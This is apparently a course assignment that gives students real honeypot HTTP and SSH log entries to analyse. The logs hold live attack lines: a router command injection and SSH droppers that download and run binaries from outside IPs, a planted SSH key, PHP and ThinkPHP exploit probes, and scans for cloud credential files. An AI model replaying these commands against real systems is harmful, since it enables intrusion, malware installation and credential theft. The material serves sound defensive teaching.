

# Attacks for analysis


Below you'll find 6 groups of attacks, 2 attacks per group (HTTP, SSH). These attacks were pulled directly from the honeypot log files.


Choose the group of attacks that you would like to analyze.
Feel free to analyze the attacks however you want, just make sure that your analysis has the following

- IP Address of the attacker with geolocation 
- Service targeted (e.g., SSH, HTTP) 
- Description of the attack captured 
- Intended goal or purpose of the attack 
- Recommended fix and or prevention measures to mitigate similar attacks

**You can even paste in your attacks into chatgpt along with the requirements(IP Address, Service targeted, Description, etc) and use that as a guide to help you.** 

## How to Geolocate an IP Address

```plaintext
1.) Figure out the IP address that you want to locate
2.) Go to https://whatismyipaddress.com/ip/<IP GOES HERE> 

For example we will use Google's IP address, 142.250.189.228 so we just go to 
https://whatismyipaddress.com/ip/142.250.189.228

```

You should see something like this




***
### Analysis Group 1: Daniel 

HTTP Attack
```log
154.213.184.14 - - [20/Nov/2024:13:25:06 +0000] "GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+mips%3B+wget+http%3A%2F%2F193.143.1.70%2Fmips.nn%3B+chmod+777+mips.nn%3B+.%2Fmips.nn+tplink%3B+rm+-rf+mips.nn%60) HTTP/1.1" 404 438 "-" "-"
```

SSH Attack
```log
2024-11-14T18:11:26+0000 [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,27377,218.92.0.131] CMD: #!/bin/sh; PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; wget http://43.249.172.195:888/112; curl -O http://43.249.172.195:888/112; chmod +x 112; ./112; wget http://43.249.172.195:888/112s; curl -O http://43.249.172.195:888/112s; chmod +x 112s; ./112s; rm -rf 112.sh; rm -rf 112; rm -rf 112s; history -c
```


***
### Analysis Group 2: 

HTTP Attack
```log
223.100.248.31 - - [18/Nov/2024:10:15:51 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\"hi\"));?>+/tmp/index1.php HTTP/1.1" 404 493 "-" "Custom-AsyncHttpClient
```

SSH Attack
```plaintext
2024-11-14T11:46:20+0000 [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,27016,37.44.238.68] CMD: cd /tmp;rm -rf /tmp/* || cd /var/run || cd /mnt || cd /root;rm -rf /root/* || cd /; wget http://87.120.125.191/bins.sh; curl -O http://87.120.125.191/bins.sh;/bin/busybox wget http://87.120.125.191/bins.sh; chmod 777 bins.sh;./bins.sh;sh bins.sh; rm bins.sh
```


***
### Analysis Group 3: 

HTTP Attack
```log
92.255.57.58 - - [19/Nov/2024:10:30:23 +0000] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 200 3417 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
```

SSH Attack
```plaintext
2024-11-01T09:38:16+0000 [SSHChannel session (1) on SSHService b'ssh-connection' on HoneyPotSSHTransport,761,193.70.0.177] CMD: cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
```


***
### Analysis Group 4:

HTTP Attack
```log
152.42.177.205 - - [19/Nov/2024:02:24:00 +0000] "GET /.azure/config HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"

152.42.177.205 - - [19/Nov/2024:02:24:01 +0000] "GET /.azure/credentials HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"

152.42.177.205 - - [19/Nov/2024:02:24:01 +0000] "GET /kubernetes/config HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"

152.42.177.205 - - [19/Nov/2024:02:24:01 +0000] "GET /kube/config HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"

152.42.177.205 - - [19/Nov/2024:02:24:02 +0000] "GET /.kube/config HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"

152.42.177.205 - - [19/Nov/2024:02:24:02 +0000] "GET /.env.docker HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"

152.42.177.205 - - [19/Nov/2024:02:24:02 +0000] "GET /.env.aws HTTP/1.1" 404 494 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
```

SSH Attack
```log
2024-11-01T09:31:57+0000 [HoneyPotSSHTransport,720,8.219.246.145] login attempt [b'root'/b'1q2w3e4r5t6y7u8i'] succeeded
2024-11-01T09:32:00+0000 [SSHChannel session (3) on SSHService b'ssh-connection' on HoneyPotSSHTransport,720,8.219.246.145] CMD: echo "root:gkgV6sWvx4c2"|chpasswd|bash
2024-11-01T09:32:08+0000 [HoneyPotSSHTransport,720,8.219.246.145] Closing TTY Log: var/lib/cowrie/tty/09a3e612f8cad156005766467cf917c507aa88b3336043a76182a301b404545e after 0 seconds
2024-11-01T09:32:08+0000 [HoneyPotSSHTransport,720,8.219.246.145] avatar root logging out
2024-11-01T09:32:08+0000 [HoneyPotSSHTransport,720,8.219.246.145] Connection lost after 12 seconds
```


***
### Analysis Group 5:

HTTP attack
```log
185.91.69.110 - - [7/Nov/2024:09:50:20 +0000] "{\"id\":1,\"jsonrpc\":\"2.0\",\"method\":\"login\",\"params\":{\"login\":\"444RXL2XG65SF197s6NdZmLcajTrrNnhhPnjkDDst5FW7QGM8w5HjxWDWtytmhDdk8A9uKrRE1fesXrNNkLm6rRDEBBvR6Y\",\"pass\":\"x\",\"agent\":\"XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\",\"algo\":[\"cn/1\",\"cn/2\",\"cn/r\",\"cn/fast\",\"cn/half\",\"cn/xao\",\"cn/rto\",\"cn/rwz\",\"cn/zls\",\"cn/double\",\"cn/ccx\",\"cn-lite/1\",\"cn-heavy/0\",\"cn-heavy/tube\",\"cn-heavy/xhv\",\"cn-pico\",\"cn-pico/tlo\",\"cn/upx2\",\"rx/0\",\"rx/wow\",\"rx/arq\",\"rx/graft\",\"rx/sfx\",\"rx/keva\",\"argon2/chukwa\",\"argon2/chukwav2\",\"argon2/ninja\",\"astrobwt\"]}}\n" 400 483 "-" "-"
```

SSH Attack
```log
**2024-11-01T06:04:11+0000** [cowrie.ssh.transport.HoneyPotSSHTransport#debug] NEW KEYS
**2024-11-01T06:04:11+0000** [cowrie.ssh.transport.HoneyPotSSHTransport#debug] starting service b'ssh-userauth'
**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] b'root' trying auth b'none'
**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] b'root' trying auth b'publickey'
**2024-11-01T06:04:11+0000** [HoneyPotSSHTransport,1,98.207.127.83] public key attempt for user b'root' of type b'sk-ssh-ed25519@openssh.com' with fingerprint d4:a7:89:ac:f4:0e:c0:29:7c:5b:2e:4b:56:4e:e9:f7

**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] b'root' failed auth b'publickey'
**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] reason: ('Incorrect signature', None)
**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] b'root' trying auth b'publickey'
**2024-11-01T06:04:11+0000** [HoneyPotSSHTransport,1,98.207.127.83] public key attempt for user b'root' of type b'sk-ssh-ed25519@openssh.com' with fingerprint ec:0c:a8:42:ed:2e:32:86:56:39:0f:68:8d:9e:69:5e

**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] b'root' failed auth b'publickey'
**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] reason: ('Incorrect signature', None)
**2024-11-01T06:04:11+0000** [cowrie.ssh.userauth.HoneyPotSSHUserAuthServer#debug] b'root' trying auth b'publickey'
**2024-11-01T06:04:11+0000** [HoneyPotSSHTransport,1,98.207.127.83] public key attempt for user b'root' of type b'sk-ssh-ed25519@openssh.com' with fingerprint 54:2d:0a:b9:e9:17:4d:fc:28:2a:73:1e:c5:1e:e2:28

```


***
### Analysis Group 6:

HTTP attack
```log
36.139.63.123 - - [13/Nov/2024:21:41:14 +0000] "GET /index.php?s=/index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1" 404 493 "-" "Custom-AsyncHttpClient"
```

SSH Attack
```log
2024-11-15T15:55:50+0000 [HoneyPotSSHTransport,28100,194.169.175.38] login attempt [b'root'/b'admin01'] succeeded
2024-11-15T15:55:50+0000 [HoneyPotSSHTransport,28100,194.169.175.38] Initialized emulated server as architecture: linux-x64-lsb
2024-11-15T15:55:51+0000 [cowrie.ssh.connection.CowrieSSHConnection#debug] got channel b'direct-tcpip' request
2024-11-15T15:55:51+0000 [HoneyPotSSHTransport,28100,194.169.175.38] direct-tcp connection request to 216.58.215.100:443 from 127.0.0.1:33846

2024-11-15T15:55:51+0000 [HoneyPotSSHTransport,28100,194.169.175.38] discarded direct-tcp forward request 0 to 216.58.215.100:443 with data b"\x16\x03\x01\x02\x00\x01\x00\x01\xfc\x03\x03s\x01\x96\xb6w\x0e4i\xc0/\x0bUZ\xd8\xf6\x01\x95\x06\x98\xdf\xd5-\xff\x10?\xadD\x91x\x8b\x8d~ S?/\xb2\xcc\x82\xc3\x00v\x06\xad\x15\xab\xf1R\x84\xfa\xbdk\xc6\xd5-\x1ft\x06G\x07\xc7\x12\x03\x97o\x00V\x13\x02\x13\x03\x13\x01\xc0,\xc00\xc0+\xc0/\xcc\xa9\xcc\xa8\x00\x9f\x00\x9e\xcc\xaa\xc0\xaf\xc0\xad\xc0\xae\xc0\xac\xc0$\xc0(\xc0#\xc0'\xc0\n\xc0\x14\xc0\t\xc0\x13\xc0\xa3\xc0\x9f\xc0\xa2\xc0\x9e\x00k\x00g\x009\x003\x00\x9d\x00\x9c\xc0\xa1\xc0\x9d\xc0\xa0\xc0\x9c\x00=\x00<\x005\x00/\x00\xff\x01\x00\x01]\x00\x00\x00\x13\x00\x11\x00\x00\x0ewww.google.com\x00\x0b\x00\x04\x03\x00\x01\x02\x00\n\x00\x0c\x00\n\x00\x1d\x00\x17\x00\x1e\x00\x19\x00\x18\x00\x10\x00\x0b\x00\t\x08http/1.1\x00\x16\x00\x00\x00\x17\x00\x00\x001\x00\x00\x00\r\x00*\x00(\x04\x03\x05\x03\x06\x03\x08\x07\x08\x08\x08\t\x08\n\x08\x0b\x08\x04\x08\x05\x08\x06\x04\x01\x05\x01\x06\x01\x03\x03\x03\x01\x03\x02\x04\x02\x05\x02\x06\x02\x00+\x00\x05\x04\x03\x04\x03\x03\x00-\x00\x02\x01\x01\x003\x00&\x00$\x00\x1d\x00 \xb5\tm\ri\xef\x96C\x01\xe2Q\x0c*\xbfHd\xf7\xb7(\x8f\xc3\x91m\xd9\xb6'\xf7\xe4\xe9\x1c\xe6y\x00\x15\x00\xa8\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
```
